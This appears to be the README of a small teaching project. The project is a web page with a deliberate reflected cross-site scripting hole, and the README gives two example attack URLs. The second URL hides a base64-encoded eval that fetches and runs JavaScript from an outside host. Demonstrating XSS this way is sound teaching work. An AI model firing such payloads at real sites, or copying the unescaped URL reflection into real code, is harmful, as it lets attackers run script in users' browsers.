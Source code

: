 # XSS-Demo

This is a simple page with some example content (borrowed from W3Schools), that has a deliberate Cross Site Scripting vulnerability. It reflects the URL down into HTML.

For example: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html?%3Cscript%3Ealert(1)%3C/script%3E

Or more fun: https://rawgit.com/sdclibbery/XSS-Demo/master/index.html?%3Csvg/onload=eval(atob(%60JC5nZXRTY3JpcHQoJ2h0dHBzOi8vZGluaXNjcnV6LmdpdGh1Yi5pby9YU1MtUG9jcy9wb2NzL2RhbmNlLXhzcy5qcycp%60))%3E
(With thanks to Dinis Cruz http://blog.diniscruz.com/ for the payload :-)
